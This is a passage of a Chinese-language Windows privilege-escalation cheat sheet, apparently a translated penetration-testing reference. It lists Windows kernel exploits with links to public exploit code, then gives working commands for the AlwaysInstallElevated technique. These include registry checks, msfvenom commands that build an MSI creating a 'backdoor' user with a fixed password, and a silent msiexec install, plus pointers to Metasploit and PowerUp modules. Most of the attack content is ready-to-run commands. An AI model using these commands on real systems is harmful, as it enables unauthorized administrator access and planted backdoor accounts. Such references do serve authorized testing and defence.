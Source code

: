 - [MS16-111](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-111) 　[KB3186973]　　[内核api]　　(Windows 10 10586 (32/64)/8.1)
- [MS16-098](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098) 　[KB3178466]　　[内核驱动程序]　　(Win 8.1)
- [MS16-075](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075) 　[KB3164038]　　[热土豆]　　(2003/2008/7/8/2012)
- [MS16-034](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-034) 　[KB3143145]　　[内核驱动程序]　　(2008/7/8/10/2012)
- [MS16-032](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032) 　[KB3143141]　　[次登录句柄]　　(2008/7/8/10/2012)
- [MS16-016](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-016) 　[KB3136041]　　[WebDAV]　　(2008/Vista/7)
- [MS16-014](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-014) 　[K3134228]　　[远程代码执行]　　(2008/Vista/7)    
  ...
- [MS03-026](./MS03-026) 　[KB823980]　　 [RPC接口缓冲区溢出]　　(/NT/2000/XP/2003)  

要从Kali交叉编译程序，请使用以下命令。

```powershell
Kali> i586-mingw32msvc-gcc -o adduser.exe useradd.c
```

## EoP - 微软Windows安装程序

### AlwaysInstallElevated

使用`reg query`命令，您可以检查用户和计算机的`AlwaysInstallElevated`注册表项的状态。如果两次查询都返回`0x1`的值，则表示为用户和计算机启用了`AlwaysInstallElevated`，表明系统易受攻击。

* Shell命令

  ```powershell
  reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
  reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
  ```

* PowerShell命令

  ```powershell
  Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
  Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installer
  ```

然后创建一个MSI包并安装它。

```powershell
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi-nouac -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi
```

技术也可用于：

* Metasploit : `exploit/windows/local/always_install_elevated`
* PowerUp.ps1 : `Get-RegistryAlwaysInstallElevated`, `Write-UserAddMSI`
